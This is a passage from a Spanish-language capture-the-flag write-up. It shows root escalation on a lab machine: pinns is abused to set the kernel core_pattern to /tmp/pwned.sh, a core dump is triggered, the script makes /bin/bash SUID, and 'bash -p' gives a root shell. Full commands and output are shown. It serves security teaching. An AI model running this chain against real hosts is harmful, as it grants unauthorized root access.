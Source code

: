 Después de unos intentos mas conseguimos cambiar el valor.
```console
ethan@vessel:~$ /usr/bin/pinns -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/pwned.sh' -d /dev/shm -f test -U
[pinns:w]: Failed to create ns file: File exists
ethan@vessel:~$ cat /proc/sys/kernel/core_pattern
|/tmp/pwned.sh
```

## Triggering Core Dump
Ahora, como dicta el artículo tenemos que causar un `core dump` para que el kernel ejecute nuestro script malicioso.

> We need to trigger a core dump to cause the kernel to execute our malicious core dump handler

Pero antes, vamos a crear nuestro script malicioso, en `/tmp/pwned.sh` creamos el siguiente script.
```bash
#!/bin/bash

chmod u+s /bin/bash
```

Le damos permiso de ejecución.
```console
ethan@vessel:~$ chmod +x /tmp/pwned.sh
```

Ahora simplemente causamos el `core dump` (comprobar antes el valor de `/proc/sys/kernel/core_pattern` ya que la máquina tiene un script que va cambiando el valor al que tenía antes)
```console
ethan@vessel:~$ tail -f /dev/null &
[1] 18777
ethan@vessel:~$ ps
    PID TTY          TIME CMD
  18154 pts/1    00:00:00 bash
  18777 pts/1    00:00:00 tail
  18778 pts/1    00:00:00 ps
ethan@vessel:~$ kill -SIGSEGV 18777
ethan@vessel:~$ ps
    PID TTY          TIME CMD
  18154 pts/1    00:00:00 bash
  18781 pts/1    00:00:00 ps
[1]+  Segmentation fault      (core dumped) tail -f /dev/null
```

Y podemos comprobar que todo ha salido bien y tenemos permiso de SUID en la `/bin/bash`
```console
ethan@vessel:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Ahora podemos lanzarnos una `bash` con el parámetro `-p` para lanzarla como el propietario del binario que es `root` y ya hemos escalado privilegios.
```console
ethan@vessel:~$ bash -p
bash-5.0# id
uid=1000(ethan) gid=1000(ethan) euid=0(root) groups=1000(ethan)
```

Podemos leer la flag de `root`
```console
bash-5.0# cat root.txt
9f9cc5f5dd5d00...
```

¡Y ya estaría!

Happy Hacking! 🚀

[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
[pinns:e]: Failed to bind mount ns: /proc/self/ns/user: Operation not permitted